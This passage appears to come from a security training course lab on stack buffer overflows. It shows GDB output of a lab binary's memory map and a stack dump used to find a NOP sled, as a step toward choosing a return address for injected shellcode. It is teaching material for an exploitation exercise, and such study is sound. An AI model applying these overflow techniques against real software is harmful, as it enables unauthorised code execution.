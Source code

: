 ```shell-session
(gdb) info proc all
process 2083
warning: target file /proc/2083/cmdline contained unexpected null characters
cmdline = '/home/htb-student/bow'
cwd = '/home/htb-student'
exe = '/home/htb-student/bow'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
        0x56555000 0x56556000     0x1000        0x0 /home/htb-student/bow
        0x56556000 0x56557000     0x1000        0x0 /home/htb-student/bow
        0x56557000 0x56558000     0x1000     0x1000 /home/htb-student/bow
        0xf7ded000 0xf7fbf000   0x1d2000        0x0 /lib32/libc-2.27.so
        0xf7fbf000 0xf7fc0000     0x1000   0x1d2000 /lib32/libc-2.27.so
        0xf7fc0000 0xf7fc2000     0x2000   0x1d2000 /lib32/libc-2.27.so
        0xf7fc2000 0xf7fc3000     0x1000   0x1d4000 /lib32/libc-2.27.so
        0xf7fc3000 0xf7fc6000     0x3000        0x0
        0xf7fcf000 0xf7fd1000     0x2000        0x0
        0xf7fd1000 0xf7fd4000     0x3000        0x0 [vvar]
        0xf7fd4000 0xf7fd6000     0x2000        0x0 [vdso]
        0xf7fd6000 0xf7ffc000    0x26000        0x0 /lib32/ld-2.27.so
        0xf7ffc000 0xf7ffd000     0x1000    0x25000 /lib32/ld-2.27.so
        0xf7ffd000 0xf7ffe000     0x1000    0x26000 /lib32/ld-2.27.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
Name:   bow
Umask:  0002
State:  t (tracing stop)
Tgid:   2083
Ngid:   0
Pid:    2083
PPid:   2079
(gdb)
```

```shell-session
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
```

-----

### Identification of the Return Address
After checking that we still control the EIP with our shellcode, we now need a memory address where our NOPs are located to tell the EIP to jump to it. This memory address must not contain any of the bad characters we found previously.

#### GDB NOPS

GDB NOPS

```shell-session
(gdb) x/2000xb $esp+1400

<SNIP>
0xffffd5ec:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5f4:	0x55	0x55	0x55	0x55	0x55	0x55	0x90	0x90
								# End of "\x55"s   ---->|  |---> NOPS
0xffffd5fc:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd604:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd60c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd614:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd61c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd624:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd62c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd634:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd63c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
```